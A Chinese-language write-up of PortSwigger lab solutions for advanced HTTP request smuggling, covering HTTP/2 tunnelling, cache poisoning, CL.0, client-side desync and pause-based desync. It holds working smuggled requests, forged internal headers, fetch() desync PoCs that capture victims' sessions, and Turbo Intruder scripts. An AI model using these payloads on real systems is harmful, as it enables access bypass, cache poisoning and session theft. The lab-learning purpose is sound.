Location: /my-account?id=administrator
Set-Cookie: session=oTx0R1cBtq4eXtAUi4MJTVR2M2dos7BW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

用這個 session 就可以成功通關～

## 觀念澄清

https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling

前面的 labs，都是建立在 Frontend Server > Backend Server 使用一個 TCP Connection 來處理多個 HTTP Request

## HTTP request tunnelling

https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling

### Leaking internal headers via HTTP/2 request tunnelling

概念：利用 downgrade 機制，把 internal headers 塞到 HTTP/1.1 的 request body，並且利用 application 的留言功能，讓 request body 最終可以帶出來

P.S. 不一定要留言功能，修改聯絡地址, 聊天私訊等等都可以

Attack

<div className="httpRawRequest">
  <div className="blue">POST /comment HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Type: application/x-www-form-urlencoded</div>
  <div className="blue">Hello: world\r\nContent-Length: 200\r\n\r\ncomment=</div>
  <div className="blue"></div>
  <div className="blue">x=1</div>
</div>

After Downgrade

<div className="httpRawRequest">
  <div className="blue">POST /comment HTTP/1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Type: application/x-www-form-urlencoded</div>
  <div className="blue">Hello: world</div>
  <div className="blue">Content-Length: 200</div>
  <div className="blue"></div>
  <div className="blue">comment=X-Internal-Header: secretContent-Length: 3</div>
  <div className="blue">x=1</div>
</div>

<!-- todo-yus ps 的範例少了 foo: bar -->

<!-- ### Blind request tunnelling

https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling#blind-request-tunnelling -->

<!-- 概念就是 [2 complete request](#2-complete-request)，如果 Frontend Server 只回傳第一個 Response，那就是 "Blind request tunnelling" -->

### Non-blind request tunnelling using HEAD

https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling#non-blind-request-tunnelling-using-head

複習一下 [HEAD Request Method](../http/http-request-methods-1.md#head)

漏洞成因：Frontend Server 真的依照 HEAD Response 的 `Content-Length` 讀取對應長度的 bytes

正常 Request

<div className="httpRawRequest">
  <div className="blue">HEAD /search?q=123 HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

正常 Response

```
HTTP/2 200 OK
Content-Type: text/html
Content-Length: 9487


```

Attack

<div className="httpRawRequest">
  <div className="blue">HEAD /search?q=123 HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">foo: bar\r\n\r\nGET /tunnelled HTTP/1.1\r\nHost: vulnerable-website.com</div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

After Downgrade

<div className="httpRawRequest">
  <div className="blue">HEAD /search?q=123 HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">foo: bar</div>
  <div className="blue"></div>
  <div className="blue"></div>
  <div className="orange">GET /tunnelled HTTP/1.1</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Vulnerable Response

```
HTTP/2 200 OK
Content-Type: text/html
Content-Length: 9487

<h1>This is a tunnelled response</h1>...
```

:::warning
9487 是 /search?q=123 回傳的 Content-Length

- 情境1: 如果 /tunnelled 的 CL > 9487，則 tunnelled response 會被截斷
- 解法1: 把 /search?q=123 替換成 CL 更長的
- 情境2: 如果 /tunnelled 的 CL < 9487，則 response 會 timeout
- 解法2: 把 /search?q=123 替換成 CL 更短的，或是讓 /tunnelled?q=padding 使得 CL 變長
  :::

## Lab: Bypassing access controls via HTTP/2 request tunnelling

| Dimension | Description                                                                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling                                                                        |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling |

<!-- 先嘗試用 [Leaking internal headers via HTTP/2 request tunnelling](#leaking-internal-headers-via-http2-request-tunnelling) 的技巧

PoC

```
POST /post/comment HTTP/2
Host: 0a0500e503031d9f8153a7c1001a0044.web-security-academy.net
Cookie: session=PYvVc1oo869ntuZi6LWpqAG4A65fxJrj
Hello: world\r\nContent-Length: 150\r\n\r\ncsrf=CmAkbi6e5zIUPwueeB7Gyocc4DWrKFtH&postId=9&name=123&email=123@123&comment=

x=1
```

結果得到 "RST_STREAM received with error code: 0x1 (Protocal error detected)"，嘗試簡化 PoC

```
POST /post/comment HTTP/2
Host: 0a0500e503031d9f8153a7c1001a0044.web-security-academy.net
Cookie: session=PYvVc1oo869ntuZi6LWpqAG4A65fxJrj
Hello: world\r\n

x=1
```

結果一樣，代表 header value 注入 `\r\n` 這個技巧直接不能用，後來看了 Lab 的描述，才發現 `\r\n` 應該要注入在 header name

```
fails to adequately sanitize incoming header names
``` -->

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: 0a5a000a0419bb3484980fb3009e00d1.web-security-academy.net</div>
  <div className="blue">Cookie: session=KCP9rkqzFxwIEEuBJ1kz26PfOCtCvvM6</div>
  <div className="blue">foo: bar\r\nContent-Length: 159\r\n\r\nsearch=x: value</div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

<!-- Frontend 塞完 Custom Headers

```
POST / HTTP/2
Host: 0a5a000a0419bb3484980fb3009e00d1.web-security-academy.net
Cookie: session=KCP9rkqzFxwIEEuBJ1kz26PfOCtCvvM6
foo: bar\r\nContent-Length: 164\r\n\r\nsearch=x: value
custom-header: hello


``` -->

After Downgrade

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a5a000a0419bb3484980fb3009e00d1.web-security-academy.net</div>
  <div className="blue">Cookie: session=KCP9rkqzFxwIEEuBJ1kz26PfOCtCvvM6</div>
  <div className="blue">foo: barContent-Length: 159\r\n\r\nsearch=x: value</div>
  <div className="blue">Content-Length: 164</div>
  <div className="blue"></div>
  <div className="blue">search=x: value</div>
</div>

Response

```html
<h1>
  0 search results for 'x: value cookie:
  session=GHJXofDBeMxefFtXZLngKHQDv4KSGF9G X-SSL-VERIFIED: 0 X-SSL-CLIENT-CN:
  null X-FRONTEND-KEY: 8617947178252531 Content-Length: 0 '
</h1>
```

<!-- 其實以技巧來說不難，就是 [Leaking internal headers via HTTP/2 request tunnelling](#leaking-internal-headers-via-http2-request-tunnelling)，只是範例是注入 header value，這題是注入 header name，光是這樣的改變，就把我整不會了QQ -->

之後就是用 [Non-blind request tunnelling using HEAD](#non-blind-request-tunnelling-using-head) 的技巧

<div className="httpRawRequest">
  <div className="blue">HEAD /?search=123 HTTP/2</div>
  <div className="blue">Host: 0a5a000a0419bb3484980fb3009e00d1.web-security-academy.net</div>
  <div className="blue">Cookie: session=KCP9rkqzFxwIEEuBJ1kz26PfOCtCvvM6</div>
  <div className="blue">foo: bar\r\n\r\nGET /admin/delete?username=carlos HTTP/1.1\r\nX-SSL-VERIFIED: 1\r\nX-SSL-CLIENT-CN: administrator\r\nX-FRONTEND-KEY: 8617947178252531\r\n\r\n: hello</div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

After Downgrade

<div className="httpRawRequest">
  <div className="blue">HEAD /?search=123 HTTP/1.1</div>
  <div className="blue">Host: 0a5a000a0419bb3484980fb3009e00d1.web-security-academy.net</div>
  <div className="blue">Cookie: session=KCP9rkqzFxwIEEuBJ1kz26PfOCtCvvM6</div>
  <div className="blue">foo: bar</div>
  <div className="blue"></div>
  <div className="orange">GET /admin/delete?username=carlos HTTP/1.1</div>
  <div className="orange">X-SSL-VERIFIED: 1</div>
  <div className="orange">X-SSL-CLIENT-CN: administrator</div>
  <div className="orange">X-FRONTEND-KEY: 8617947178252531</div>
  <div className="orange"></div>
  <div className="orange">: hello</div>
</div>

Response

```html
<html>
  <head>
    <title>Server Error: Proxy error</title>
  </head>
  <body>
    <h1>Server Error: Received only 372 of expected 3295 bytes of data</h1>
  </body>
</html>
```

:::info

- `/admin/delete?username=carlos` 的 CL 是 372
- `/?search=123` 的 CL 是 3295
  :::

<!-- 最後就是把 `/admin` 改成 `/admin/delete?username=carlos`，portSwigger 一貫的手法，成功通關～

但這題第一次解，都是直接看 Solution，EXPERT 等級的題目，真的需要融會貫通，通常不是範例給的 PoC 就能直接通關，且題目敘述要認真看啊QQ -->

## Lab: Web cache poisoning via HTTP/2 request tunnelling

| Dimension | Description                                                                                                                                            |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling#web-cache-poisoning-via-http-2-request-tunnelling                   |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling |

<!-- todo-yus 到這 -->

這題我第一次也是直接看 Solution，當作練習，畢竟 EXPERT 等級的題目QQ

CRLF 的注入點是 `:path`，所以是什麼地方都可以嘗試注入看看了嗎...?

Attack Request

```
HEAD / HTTP/1.1\r\nHost: 0a580095046c649080c4cb60003b00ae.web-security-academy.net\r\n\r\nGET /post?postId=6 HTTP/1.1\r\nFoo: bar HTTP/2
Host: 0a580095046c649080c4cb60003b00ae.web-security-academy.net


```

Downgrade 之後

```
HEAD / HTTP/1.1
Host: 0a580095046c649080c4cb60003b00ae.web-security-academy.net

GET /post?postId=6 HTTP/1.1
Foo: bar
Host: 0a580095046c649080c4cb60003b00ae.web-security-academy.net


```

這題是 Non-Blind Request Tunnelling + Server 會從 HEAD Request's Response 讀取對應 CL 的數據，結果如下

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=eVqdfn2rJtSMQpm5koiOisgwUPd7VrFb; Secure; HttpOnly; SameSite=None
Content-Length: 8478
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=KvaDQ916QKIF8MkpXOn9umniBpI52ct8; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=0
Content-Length: 9206

<!DOCTYPE html>
<html>
...
```

smuggled request's response 剛好會被截斷在 8478，並且此 response 會被 cache

接下來是要找 HTTP response 包含 unencoded HTML，我這邊也是找了很久找不到，後來看到 PortSwigger 提供的 Solution 是

```
GET /resources?<script>alert(1)</script> HTTP/2
Host: 0a580095046c649080c4cb60003b00ae.web-security-academy.net


```

Response

```
HTTP/2 302 Found
Location: /resources/?<script>alert(1)</script>
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0


```

這招狠...我沒想過 Location Header 也算，反正之後就是

```
HEAD / HTTP/1.1\r\nHost: 0a580095046c649080c4cb60003b00ae.web-security-academy.net\r\n\r\nGET /resources?<script>alert(1)</script> HTTP/1.1\r\nFoo: bar HTTP/2
Host: 0a580095046c649080c4cb60003b00ae.web-security-academy.net


```

記得 `<script>alert(1)</script>` 後面要補 padding，補到 > `HEAD / HTTP/1.1` 回傳的 CL 即可通關～

## Lab: 0.CL request smuggling

| Dimension | Description                                                                                                 |
| --------- | ----------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced#0-cl-request-smuggling                      |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-0cl-request-smuggling |

這題就是 [HTTP/1.1 must die: the desync endgame](https://portswigger.net/research/http1-must-die)，但這種 whitepaper 啃起來超累...

<!-- todo-yus 研究等級的題目，未來有空再做 -->

<!-- ## Testing for CL.0 vulnerabilities

Attack Request

```
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Normal Request

```
GET / HTTP/1.1
Host: vulnerable-website.com


```

如果 Normal Request's Response 是 404，則代表有漏洞 -->

## Lab: CL.0 request smuggling

| Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/browser/cl-0                            |
| Lab       | https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling |

這題要先找到 "可以用 POST 帶 Body 的 Endpoint" + "BE 不會去讀取 Request Body" => 才能把 smuggled prefix 塞到 TCP/TLS socket

Attack

<div className="httpRawRequest">
  <div className="blue">POST /resources/images/blog.svg HTTP/1.1</div>
  <div className="blue">Host: 0a94005d0475b497815b39bd00050049.web-security-academy.net</div>
  <div className="blue">Content-Length: 50</div>
  <div className="blue"></div>
  <div className="orange">GET /admin/delete?username=carlos HTTP/1.1</div>
  <div className="orange">Foo: x</div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0a94005d0475b497815b39bd00050049.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

記得要用 Burp Repeater "Send Group (single connection)"

Normal Request's Response

```
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=k4D7Av7ExiDdqPhhLYeiGy6U0vSuO8td; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 0


```

## What is a client-side desync attack?

https://portswigger.net/web-security/request-smuggling/browser/client-side-desync

以下節錄 PortSwigger 原文

Web servers can sometimes be encouraged to respond to POST requests without reading in the body. If they subsequently allow the browser to reuse the same connection for additional requests, this results in a client-side desync vulnerability.

In high-level terms, a CSD attack involves the following stages:

The victim visits a web page on an arbitrary domain containing malicious JavaScript.

The JavaScript causes the victim's browser to issue a request to the vulnerable website. This contains an attacker-controlled request prefix in its body, much like a normal request smuggling attack.

The malicious prefix is left on the server's TCP/TLS socket after it responds to the initial request, desyncing the connection with the browser.

The JavaScript then triggers a follow-up request down the poisoned connection. This is appended to the malicious prefix, eliciting a harmful response from the server.

As these attacks don't rely on parsing discrepancies between two servers, this means that even single-server websites may be vulnerable.

PoC

```ts
fetch("https://vulnerable-website.com/vulnerable-endpoint", {
  method: "POST",
  body: "GET /hopefully404 HTTP/1.1\r\nFoo: x",
  mode: "no-cors",
  credentials: "include",
}).then(() => {
  location = "https://vulnerable-website.com/";
});
```

本質上也是 CL.0

### Handling redirects

概念：requests to endpoints that trigger server-level redirects are a common vector for client-side desyncs

問題：瀏覽器會自動 follow redirect

解法：no-cors + catch

```ts
fetch("https://vulnerable-website.com/redirect-me", {
  method: "POST",
  body: "GET /hopefully404 HTTP/1.1\r\nFoo: x",
  credentials: "include",
}).catch(() => {
  location = "https://vulnerable-website.com/";
});
```

## Lab: Client-side desync

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/browser/client-side-desync                        |
| Lab       | https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync |

這題一進去就看到 path 是 `/en`，肯定有鬼，經過一番測試，PoC

```ts
fetch(`${location.origin}`, {
  method: "POST",
  body: "GET /hopefully404 HTTP/1.1\r\nFoo: x",
  credentials: "include",
}).catch(() => {
  location = `${location.origin}/en`;
});
```

成功看到 404 "Not Found"，第一階段的偵查成功～

後續就是把 smuggled request 改成 `/post/comment`

```ts
fetch(`${location.origin}`, {
  method: "POST",
  body: "POST /en/post/comment HTTP/1.1\r\nContent-Type: application/x-www-form-urlencoded\r\nCookie: session=O5B2rdUODHOZnqhkw35diThu9WjxR8dt\r\nContent-Length: 1219\r\nHost: 0a8b003c031e9ef882001f1c009c00f9.h1-web-security-academy.net\r\n\r\ncsrf=x1ziw05SX2l96CO8XrLzAltueUiMWLRD&postId=7&name=victim15&email=1%401&comment=",
  credentials: "include",
}).catch(() => {
  location = `${location.origin}/en`;
});
```

到評論頁提取 victim 的 session 即可通關～

<!-- ## Client-side cache poisoning

https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#client-side-cache-poisoning -->

<!-- todo-yus 還沒讀 -->

<!-- ## Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling

https://portswigger.net/research/browser-powered-desync-attacks -->

<!-- todo-yus 還沒讀 -->

## Pause-based desync attacks

https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync

Pause-based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

流程，請一定要看 [Server-side pause-based desync](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync#server-side-pause-based-desync)，寫的超詳細，這技巧有夠猛

<!-- todo-yus diagram -->

## Lab: Server-side pause-based request smuggling

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync                                               |
| Lab       | https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling |

基本上按照 Document 的方法走，這題沒有到很難

P.S. 這題應該就是 [CVE-2022-22720](https://nvd.nist.gov/vuln/detail/cve-2022-22720)，可參考 [Hackerone](https://hackerone.com/reports/1667974)

Attack Request

```
POST /resources HTTP/1.1
Host: 0a1800f503ac22a881c1cbdf000500af.web-security-academy.net
Connection: keep-alive
Content-Length: 50

GET /admin/ HTTP/1.1
Foo: x
```

Turbo Intruder

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=1,
                          requestsPerConnection=100,
                          pipeline=False
                          )

    # Smuggling request with pause
    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)

    # Follow-up request
    followUp = 'GET / HTTP/1.1\r\nConnection: keep-alive\r\nHost: localhost\r\n\r\n'
    engine.queue(followUp)


def handleResponse(req, interesting):
    table.add(req)
```

`GET /admin/` Response

```html
<form
  style="margin-top: 1em"
  class="login-form"
  action="/admin/delete"
  method="POST"
>
  <input
    required
    type="hidden"
    name="csrf"
    value="nCZATckw9hTMPAzt7z94ycqxFib6TjMs"
  />
  <label>Username</label>
  <input required type="text" name="username" />
  <button class="button" type="submit">Delete user</button>
</form>
```

這題竟然不是熟悉的 `/admin/delete?username=carlos`，笑死

調整 Attack Request

```
POST /resources HTTP/1.1
Host: 0a1800f503ac22a881c1cbdf000500af.web-security-academy.net
Connection: keep-alive
Content-Length: 183

POST /admin/delete/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Host: localhost

csrf=nCZATckw9hTMPAzt7z94ycqxFib6TjMs&username=carlos&otherShit=
```

調整 Turbo Intruder

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=1,
                          requestsPerConnection=100,
                          pipeline=False
                          )

    # Smuggling request with pause
    engine.queue(target.req, pauseMarker=['Content-Length: 183\r\n\r\n'], pauseTime=61000)

    # Follow-up request
    followUp = 'GET / HTTP/1.1\r\nHost: 0a1800f503ac22a881c1cbdf000500af.web-security-academy.net\r\n\r\n'
    engine.queue(followUp)


def handleResponse(req, interesting):
    table.add(req)
```

- 183 = `POST /admin ... otherShit=` 的 byte length
- 147 = `csrf=...` + followUp 的 byte length

終於成功通關...

## 小結

這個系列的 Labs 真的是我打過最難，最燒腦的 Labs，但我覺得如果能學會，並且在真實世界 exploit 的話，成就感會遠遠大於 SQLi, XSS 這種找到爛掉的漏洞

## 參考資料

- https://portswigger.net/web-security/request-smuggling
